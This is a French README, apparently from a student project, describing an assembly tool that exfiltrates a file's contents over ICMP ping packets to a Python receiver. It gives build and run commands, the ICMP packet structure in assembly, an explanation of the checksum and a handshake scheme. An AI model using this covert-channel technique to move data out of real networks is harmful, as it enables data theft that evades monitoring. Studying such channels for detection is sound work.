


# Exfiltration de données par ICMP

## asm_icmp_leaker

### Compilation

Pour compiler le projet, il suffit de lancer le script build.sh.

```
./build.sh
```

### Utilisation

Le script doit etre lancé en sudo pour pouvoir envoyer des paquets ICMP. Car le script ouvre un socket raw pour envoyer les paquets ICMP. Qui necessite donc des droits root.

```
sudo ./main 127.0.0.1 test.txt
```

Préciser dans le script python :

```
target_ip = "127.0.0.1"
output_file = "output.txt"


```

```
# en meme temps
# va créer un fichier output.txt
python3 main.py
```

### Information

Ce script va exfiltré les données du fichier passé en paramètre par ICMP. Il va lire le fichier et envoyer le contenu du découpé en plusieurs partie.
Le script va attendre une réponse ICMP pour envoyer le caractère suivant de facon a ne pas avoir de perte d'information.

### Element du code

#### Structure d'un ping

##### Nos recherches

La grande complexité de ce projet a été de trouver la structure d'un ping. En effet, il n'existe pas de documentation officielle sur la structure d'un ping. Nous avons donc du faire des recherches pour trouver la structure. Pour ca nous avons utilisé plusieurs méthodes :

- Lecture des RFC
- Reverse d'un pacquet avec wireshark
- Site divers + IA



##### Le code

Ceci est la structure d'un ping. C'est celle que nous avons implémenté dans notre code.

```asm
address: 
  dw 2            ; Famille d'adresses 2 = AF_INET = IPv4
  dw 0            ; Numéro de port (ignoré pour le ping)
  db 0,0,0,0      ; IPv4 de destination
  dd 0            ; remplissage)
  dd 0            ; Pour aligner

packet:
  dw 0x0008       ; Type echo Request
  dw 0x0000       ; Checksum (initialisé à 0, calculé ensuite)
  dw 0x000a       ; Identifiant ; non utilisé
  dw 0x0002       ; Numéro de séquence ; non utilisé
  dw 0xad18       ; Timestamp ; non utilisé
  dw 0x8c67       ; Timestamp ; non utilisé
  dw 0x0000       ; Remplissage
  dw 0x0000       ; Remplissage

data: 
  times 24 dw 0x0000 ; données envoyé - bourrage
```

### Le checksum

Dans un pacquet ICMP se trouve un checksum. Celui ci sert a valider que les données ( donc le ping ) sont intact et donc que la communication est fonctionel.
Dans le cas ou de la donnée serait perdu , alors le checksum serait erronné et aucun pacquet ne serait envoyé en retour.

IL a donc falluy pour notre projet implementer un handshake pour valider que les données sont bien arrivé.

Il s'agit ici d'un internet checksum.

Le checksum consiste en une addition de tout les word du header du pacquet.
Puis d'un décalage de bit du resultat.
Il est ensuite inversé et ajouté au pacquet.



Plus de detail dans le code.

### La validation des données

Nous avons également implémenté une méchanique d'attente du pâcquet de retour pour valider que les données sont bien arrivé. On atttendra que le pacquet de retour soit bien le bon pour envoyer le suivant.

### Possibilité d'acceleration

Egalement nous pourrions retirer le handshake pour eviter un retour et accelerer l'envoi de donnée , mais cela ne garanti pas l'intégrité des données.
Bien que 100 fois plus rapide. Cela serait potentielement utilisé dans des cas spécifique.

### Le serveur PYTHON

Coté serveur nous avons un script python, qui réceptionne les ping et les inscrit dans un fichier.
Il n'y a pas d'utilité a faire de l'assembleur coté serveur.
